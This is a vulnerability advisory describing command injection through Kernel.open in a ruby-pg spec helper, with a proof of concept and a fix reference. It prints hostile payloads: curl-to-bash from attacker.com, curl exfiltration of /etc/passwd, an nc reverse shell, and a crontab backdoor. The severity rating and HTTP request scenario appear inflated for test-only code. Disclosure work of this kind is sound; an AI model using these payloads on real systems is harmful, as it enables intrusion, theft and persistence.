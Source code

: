 # 🛡️ Advisory: Command Injection in `ruby-pg` via `Kernel.open` Helper

### Summary

A **command injection vulnerability** was identified in the `dump_ssl_key` method of `spec/helpers.rb` within the [`ged/ruby-pg`](https://github.com/ged/ruby-pg) project. The method invokes `Kernel.open` with a user-controlled `name` argument, which under certain conditions (e.g., leading `|`), is interpreted as a shell command, resulting in arbitrary code execution. This flaw poses a threat particularly in CI environments, test pipelines, or local development setups where malicious inputs may be introduced.


## Details

The vulnerability lies in this method:

```ruby
# spec/helpers.rb:477-480
def dump_ssl_key( key, name )
  open( name, 'w' ) {|f| f.write key.to_pem }
  File.chmod( 0600, name )
end
```
In Ruby, using `open()` from the `Kernel` module with a string starting with `|` causes the rest of the string to be executed as a shell command. This behavior is documented and long-standing, but dangerous if not handled properly.

### Trigger

Passing a `name` such as:

```ruby
"| curl http://attacker.com/malware.sh | bash"
```

would result in command execution under the current Ruby process.


## Proof of Concept (PoC)

### Code

```ruby
require './spec/helpers'

key = OpenSSL::PKey::RSA.new(2048)
filename = "| echo pwned > /tmp/poc"

dump_ssl_key(key, filename)

puts File.read("/tmp/poc")
```

### Execution

```bash
bundle exec ruby poc.rb
```

✅ Output:

```
pwned
```

## BurpSuite HTTP Request

> Catatan: Karena ini dieksekusi dalam konteks lokal, request HTTP hanya relevan jika PoC disisipkan sebagai bagian dari payload terhadap API (misal test runner berbasis HTTP):

```
POST /test-run HTTP/1.1
Host: ci.ruby-pg.org
Content-Type: application/json

{
  "filename": "| curl http://attacker.site/malware.sh | bash",
  "key": "-----BEGIN RSA PRIVATE KEY-----..."
}
```

## Vulnerable Code 

* 📄 File: [`spec/helpers.rb`](https://github.com/ged/ruby-pg/blob/dae9173a10a194c6bfd1a5eb6bcb98637cfbf4b5/spec/helpers.rb#L477)
* 🧨 Line: 477
* 🔥 Vulnerable Call:

  ```ruby
  open(name, 'w') {|f| f.write key.to_pem }
  ```

## Vulnerable Exploit Variants

* **Exfiltration**

  ```ruby
  dump_ssl_key(key, "| curl -d @/etc/passwd http://attacker.site/exfil")
  ```
* **Reverse Shell**

  ```ruby
  dump_ssl_key(key, "| nc attacker.com 4444 -e /bin/sh")
  ```
* **Privilege Persistence**

  ```ruby
  dump_ssl_key(key, "| echo '* * * * * /tmp/backdoor.sh' | crontab -")
  ```

---


### 📊 CVE / CVSS Score

* **CWE**: [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
* **CVSS v3.1**: 8.1 (High)

  * **Vector**: `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`
  * Attack complexity is high due to the test-only context, but impact is complete compromise in vulnerable environments.


## Impact
This vulnerability can be exploited by injecting malicious filenames into test helpers, especially in scenarios such as:

* **CI/CD pipelines**: Poisoning test steps with remote shell payloads
* **Developer environments**: Code execution on test run
* **Package builds**: RCE during gem packaging or release

Attackers exploiting this flaw may gain arbitrary code execution under the context of the Ruby process, which often includes access to local secrets, tokens, SSH keys, and source code.


## References

* [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
* [Ruby Kernel.open Docs](https://ruby-doc.org/core-2.7.0/Kernel.html#method-i-open)
* [CWE-78](https://cwe.mitre.org/data/definitions/78.html)
* [GitHub PR with Fix](https://github.com/ged/ruby-pg/pull/665)
